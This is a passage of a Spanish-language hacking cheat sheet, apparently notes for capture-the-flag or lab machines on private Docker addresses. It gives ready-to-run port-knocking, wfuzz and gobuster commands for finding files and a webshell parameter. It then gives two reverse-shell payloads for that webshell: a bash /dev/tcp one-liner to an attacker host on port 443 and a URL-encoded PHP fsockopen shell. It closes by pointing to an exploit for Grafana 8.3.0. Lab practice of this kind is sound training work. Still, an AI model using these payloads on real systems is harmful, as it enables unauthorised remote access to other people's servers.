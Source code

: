 forma de uso:

python3 knockit.py -b 192.168.42.177 65535 8888 54111 2>/dev/null

-------------------------------------------------------------------------------

## 7.- WFUZZ 

[+] Buscar un archivo en un ruta con wfuzz:

busca un archivo que contenga alguna palabra del archivo diccionario.txt en la ruta: http://172.17.0.2/hackademy/

wfuzz -c -z file,diccionario.txt --hc 404 http://172.17.0.2/hackademy/FUZZ_archivo.ext


[+] WEBSHELL:

si hacemos fuzzing web:

gobuster dir -t 200 -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,bak,sh,py,js,html -b 403,404 2>/dev/null

y encontramos lo siguiente:

/shell.php (Status:500) [Size:0]

puede que sea una webshel.

para encontrar el parámetro, utilizamos la herramienta:

Herramienta WFUZZ

wfuzz -c --hl=44 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.1/shell.php?FUZZ=id"

una vez encontrado el parámetro, nos ponemos en escucha por netcat y hacemos en la url:

forma 1:

http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/IP-HACKER/443 0>%261"

forma 2:

url encodeamos esto:
php -r '$sock=fsockopen("172.17.0.200",4450);exec("/bin/bash <&3 >&3 2>&3");'

php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.200%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

luego lo pegamo en la url después del igual que está después del parámetro vulnerable.

http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.200%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

en la forma 1 puede de que la conexión sea frágil y se rompa en al instante, la forma 2 es más robusta.

-------------------------------------------------------------------------------

## 8.- Siempre es bueno revisar si hay algún exploit para las diferentes versiones, como por ejemplo Grafana 8.3.0 que tiene su exploit para ver diferentes rutas dentro de la máquina donde se ejecuta grafana. 
